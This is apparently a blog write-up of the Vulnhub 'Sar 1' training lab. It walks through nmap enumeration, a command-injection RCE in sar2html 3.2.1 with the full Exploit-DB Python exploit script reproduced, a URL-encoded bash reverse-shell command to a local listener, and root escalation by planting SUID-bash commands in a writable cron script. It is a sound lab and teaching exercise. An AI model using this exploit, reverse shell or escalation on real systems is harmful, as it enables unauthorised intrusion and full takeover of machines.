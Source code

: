 +++
title = "Vulnhub: Sar 1"
date = "2021-05-13"
author = ""
authorTwitter = "" #do not include @
cover = ""
tags = ["Beginner", "Vulnhub", "OSCP Prep", "sar2html", "Cron"]
keywords = ["", ""]
description = ""
showFullContent = false
+++

<!--more-->
{{< image src="/img/sar1/sar1.png" alt="" position="center" style="border-radius: 8px;" >}}

| Difficulty | Release Date | Author |
| ---------- | ------------ | ------ |
| Beginner | 15 Feb 2020 | Love |

# Summary

In this box there's only one port open that is running a vulnerable version of sar2html that
we take advantage of to get a low priv shell. For privilege escalation there was a cron job
running as root that was running a script we could write in.

# Reconnaissance

Nmap

```sh
Nmap scan report for 192.168.56.107
Host is up (0.000040s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
MAC Address: 08:00:27:48:00:F5 (Oracle VirtualBox virtual NIC)
```

# Enumeration

## 80 (HTTP)

Using nmap scripts we see the existence of robots.txt

```sh
Nmap scan report for 192.168.56.107
Host is up (0.00042s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-enum:
|   /robots.txt: Robots file
|_  /phpinfo.php: Possible information file
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```
From this we discover sar2HTML.

{{< image src="/img/sar1/sar1-01.png" alt="" position="center" style="border-radius: 8px;" >}}

Visiting this directory I get the version of sar2html as 3.2.1.

{{< image src="/img/sar1/sar1-02.png" alt="" position="center" style="border-radius: 8px;" >}}

Checking on searchsploit, a remote command execution vulnerability exists for this version.

```sh
searchsploit sar2html
```

{{< image src="/img/sar1/sar1-03.png" alt="" position="center" style="border-radius: 8px;" >}}

# Shell as user

By executing the python script that exploits this RCE vulnerability, we are able to get a reverse shell.

script url: [https://www.exploit-db.com/exploits/49344](https://www.exploit-db.com/exploits/49344)

```
~/Vulnhub/Sar1  python3 49344.py

Enter The url => http://192.168.56.107/sar2HTML/
Command => id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

Command => /bin/bash+-c+'/bin/bash+-i+>%26+/dev/tcp/192.168.56.1/9000+0>%261'
```

{{< image src="/img/sar1/sar1-04.png" alt="" position="center" style="border-radius: 8px;" >}}

Performing some enumeration to achieve some privilege escalation to root or lateral movement to other users
I found a cron job running as root.

{{< image src="/img/sar1/sar1-05.png" alt="" position="center" style="border-radius: 8px;" >}}

While we can't write to this file, the script being executed inside it is writeable.

{{< image src="/img/sar1/sar1-06.png" alt="" position="center" style="border-radius: 8px;" >}}


# Shell as root

By writing into write.sh using vi, we can escalate our privileges.

```
#!/bin/sh

cp /bin/bash /var/www/html/suidbash
chmod u+s /var/www/html/suidbash
```

This will create a copy of the bash binary and add suid permissions to it.

Once the cron job executes and creates the binary we can achieve a root shell and read all the flags.

{{< image src="/img/sar1/sar1-07.png" alt="" position="center" style="border-radius: 8px;" >}}

# Extras

Understanding the exploit script and perform the exploit manually. 

To my surprise, this exploit code was created by a good friend of mine, Musyoka Ian.

```py
# Exploit Title: sar2html 3.2.1 - 'plot' Remote Code Execution
# Date: 27-12-2020
# Exploit Author: Musyoka Ian
# Vendor Homepage:https://github.com/cemtan/sar2html
# Software Link: https://sourceforge.net/projects/sar2html/
# Version: 3.2.1
# Tested on: Ubuntu 18.04.1

#!/usr/bin/env python3

import requests
import re
from cmd import Cmd

url = input("Enter The url => ")

class Terminal(Cmd):
    prompt = "Command => "
    def default(self, args):
        exploiter(args)

def exploiter(cmd):
    global url
    sess = requests.session()
    output = sess.get(f"{url}/index.php?plot=;{cmd}")
    try:
        out = re.findall("<option value=(.*?)>", output.text)
    except:
        print ("Error!!")
    for ouut in out:
        if "There is no defined host..." not in ouut:
            if "null selected" not in ouut:
                if "selected" not in ouut:
                    print (ouut)
    print ()

if __name__ == ("__main__"):
    terminal = Terminal()
    terminal.cmdloop()% 
```

According to the script the vulnerable parameter is plot and simply takes in our command and executes it.

When interacting with the application you can select OS, when you pick one the plot parameter is used.

{{< image src="/img/sar1/sar1-08.png" alt="" position="center" style="border-radius: 8px;" >}}

Here we can inject the command we want and execute shell commands. The OS option doesn't matter, anything after
the semi-colon `;` will be executed. For the reverse shell command remember to url encode special chars like I did
above

{{< image src="/img/sar1/sar1-09.png" alt="" position="center" style="border-radius: 8px;" >}}

Shoutout to Musyoka Ian, you can read his blog linked below. He does cool writeups on challenges as well.

[https://musyokaian.medium.com/](https://musyokaian.medium.com/)
